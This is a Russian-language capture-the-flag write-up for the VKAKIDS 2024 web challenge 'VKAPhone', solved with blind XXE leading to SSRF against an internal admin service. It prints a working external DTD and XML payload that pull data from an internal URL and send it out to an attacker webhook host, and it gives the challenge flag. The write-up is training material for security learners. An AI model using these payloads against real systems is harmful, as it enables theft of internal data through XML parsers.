



## Служба поддержки VKAPhone 

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKAKIDS 2024 | VKAPhone | Web | hard |

  
### Описание


> Автор: [[seraphic_grin](https://t.me/seraphic_grin)]
>
Специалисты Военно-космической академии создали самый защищенный телефон. Обязательно оставьте обратную связь после покупки. 


### Решение
Дан лендинг телефона VKAPhone. Есть отзывы и обратная связь.
Из тела запросов при оставлении отзыва/обратной связи видно, что данные между клиентом и сервером передаются в XML формате. Вероятнее всего, имеет место уязвимость XXE(XML external entities).
- В исходном коде видно, что флаг хранится в БД Redis в хешмапе обратной связи под id=1. 
- Есть интерфейс админа, доступ к которому есть только внутри докера. В этом интерфейсе можно читать все записи Redis.
- Таким образом, надо произвести SSRF на интерфейс админа, чтобы получить флаг (http://admin:3017/issues/1).
- Есть возмодность произвести SSRF через XXE, но при отправке обычных внешних сущностей (&xxe;) ничего не происходит по двум причинам:
    1. Запросы на создание отзыва строго фильтруются на наличие любых ссылок, к тому же тело самого сообщения фильтруется регулярным выражением, то есть результат XXE не будет виден на странице.
    2. Запросы на создание обращение к поддержке (/api/issue) сохраняется в Redis, но нигде не выводится кроме интерфейса админа.
На помощь приходят параметрические сущности:
```
<!ENTITY % file SYSTEM "http://admin:3017/issues/1"> %file;
```
Таким образом следует вызвать внешний dtd, в котором произвести запрос на http://admin:3017/issues/1 и его результаты отправятся на вебхук. Разместить внешний dtd можно на любом бесплатном хостиинге статики.
Внешний dtd выглядит следующим образом:
```xml
<!ENTITY % file SYSTEM "http://admin:3017/issues/1">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://${WEBHOOKHOST}/?x=%file;'>">
%eval;
%exfiltrate;
```
Таким образом при отправлении отзыва/обратной связи следует отправить следующий пэйлоад:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://ВАШХОСТ/remote.dtd"> %xxe; ]>
<Issue>
<email>adsds@erf.rg</email>
<message>ffff</message>
</Issue>
```
### Флаг возващается на вебхук:


### Флаг

```
vkactf{even_local_data_can_be_retrieved}
```